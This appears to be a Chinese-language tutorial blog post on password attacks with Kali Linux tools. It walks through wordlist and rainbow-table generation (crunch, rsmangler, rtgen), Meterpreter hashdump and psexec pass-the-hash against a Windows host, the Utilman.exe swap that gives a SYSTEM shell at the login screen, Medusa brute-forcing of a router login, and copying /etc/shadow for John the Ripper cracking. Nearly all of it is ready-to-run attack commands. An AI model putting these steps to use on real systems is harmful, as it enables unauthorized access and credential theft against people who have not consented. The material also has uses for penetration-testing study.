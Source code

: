 ```yaml
---
title: Kali-Linux常用密码攻击方法
date: 2024-01-13 20:28:36
tags: Kali
mathjax: true
---
```


# Kali-Linux常用密码攻击方法

## Stasprocessor

利用马尔可夫攻击方式分析已有的密码字典文件：

```bash
statsgen [options] passwords.txt
    #--version
    #-h,--help
    #-o password.marsks,--output=password.masks 保护掩码和统计信息到一个文件
    #--hiderare 隐藏比例<1%的统计项
    #--minlength=8 过滤最小长度为8的密码
    #--maxlength=8
    #--charset=loweralpha,numeric 指定过滤的密码字符
    #--simplemask=stringdigit,allspecial 过滤密掩码格式
```

例如分析rockyou.txt密码文件：

```bash
statsgen rockyou.txt
```

内容分别为：

1. 密码长度统计信息。

2. 密码字符集统计。

3. 密码复杂性统计。

4. 简单掩码统计。

5. 密码字符串掩码格式的高级统计。

掩码格式：

| 掩码格式 | 含义     |
| -------- | -------- |
| ?l       | a~z      |
| ?u       | A~Z      |
| ?d       | 0~9      |
| ?s       | 特殊字符 |

## Crunch

生成字典：

```bash
crunch <min> <max> [<charset string>][options]
    #<min> 生成密码的最小长度
    #<max>
    #<charset string> 指定的字符集
    #-o 指定生成的密码字典文件名
    #-b number[type] 指定写入文件最大字节数 可指定KB、MB或GB 必须与-o START一起使用
    #-t 设置使用特殊格式
    #-l 当-t指定@、%或^时 识别占位符的一些字符
```

该工具默认提供的字符集在/usr/share/crunch/charset.lst中。

例如：

```bash
crunch 8 10 hex-lower -o /root/crunch.txt
```

## rsmangler

基于用户收集的信息，利用常见密码构建规则来构建字典：

```bash
rsmangler -f wordlist.txt -o new_passwords.txt
```

例如当test文件内容如下时：

```
root
password
```

用该命令生成字典：

```bash
rsmangler -f test -o pass.txt
```

## rtgen

生成彩虹表，两种语法格式：

```bash
rtgen hash_algorithm charset plaintext_len_min plaintext_len_max table_index chain_len chain_num part_index
rtgen hash_algorithm charset plaintext_len_min plaintext_len_max table_index -bench
    #hash_algorithm 可指定的值有lm ntlm md5 sha1 sha256
    #charset 指定字符集
    #plaintext_len_min 指定生成的密码最小长度
    #plaintext_len_max
    #table_index 表单数量
    #chain_len 链长度
    #chain_num 链个数
    #part_index 块数量
```

默认提供的所有字符集在/usr/share/rainbowcrack/charset.txt中。

生成基于MD5的彩虹表，长度4~8：

```bash
rtgen md5 loweralpha 4 8 0 1000 1000 0
```

生成文件/usr/share/rainbowcrack/md5_loweralpha#4-8_0_1000x1000_0.rt，并使用rtsort进行排序：

```bash
rtsort md5_loweralpha#4-8_0_1000x1000_0.rt
```

## hashid

（hash-identifier比这个好用多了...

识别哈希密码值可能的加密方式：

```bash
hashid 哈希值
```

得到的结果中，排名越靠前，可能性越大。

## 直接使用哈希密码值

哈希爆不出来，就直接用哈希值绕过密码验证，使用MSF。

在Meterpreter会话中：

```
hashdump #获取哈希密码
backgroud
use exploit/windows/smb/psexec
show options
set RHOSTS 192.168.29.143
set SMBUser bob
set SMBPass 哈希值
exploit #成功打开一个Meterpreter会话
```

## Utilman

只试过Win7。

使用U盘进入Kali Linux的Live模式，打开Windows的磁盘，进入Windows/System32，将Utilman.exe替换为cmd.exe。重启Windows，在登录界面按Win+U，进入cmd，whoami显示为SYSTEM权限。

## Medusa

暴力密码破解，可FTP、HTTP、IMAP、MYSQL等，路由器管理界面基于HTTP协议，这里对路由器进行密码破解。

```bash
medusa -h [IP] -U [user file] -P [pass file] -M http -e ns
    #-h 指定目标主机地址
    #-u 指定尝试破解的用户名
    #-U 指定使用的用户名文件
    #-p 指定尝试破解的密码
    #-P 指定使用的密码文件
    #-M 指定要破解的模块类型
    #-e 尝试空密码
```

暴力破解路由器的登录用户名和密码：

```bash
medusa -h 192.168.1.1 -u admin -P password.txt -M http -e ns
```

## 破解Linux用户密码

```bash
cp /etc/password /etc/shadow /root/
unshadow passwd shadow > cracked
john --wordlist=/usr/share/john/password.lst cracked #破解密码
john --show cracked #查看破解后的密码和其他信息
```
